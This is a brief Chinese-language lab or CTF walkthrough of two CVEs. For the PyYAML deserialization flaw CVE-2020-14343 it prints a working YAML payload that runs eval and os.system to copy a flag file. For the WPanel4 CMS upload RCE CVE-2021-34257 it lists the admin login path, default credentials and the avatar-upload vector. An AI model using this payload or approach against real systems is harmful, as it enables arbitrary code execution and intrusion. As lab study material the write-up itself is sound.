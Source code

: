 ## [待]CVE-2020-14343 PyYAML反序列化漏洞

*靶标介绍：*

PyYAML中存在不安全的反序列化漏洞。攻击者可利用该漏洞执行任意代码

exploit.yaml

```
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - [ "\x5f\x5fimport\x5f\x5f('os')\x2esystem('cat /flag>static>flag')" ]
```



## CVE-2021-34257 WPanel4-CMS Authenticated RCE漏洞

*靶标介绍：*

WPanel是一个用于构建博客、网站和网络应用程序的CMS。 WPanel 4 4.3.1 及更低版本存在安全漏洞，该漏洞源于通过恶意 PHP 文件上传。

/index.php/admin/login

admin@admin.com/admin  勾上Change avatar

![image-20230717085120518](%E9%9D%B6%E5%9C%BA.assets/image-20230717085120518.png)
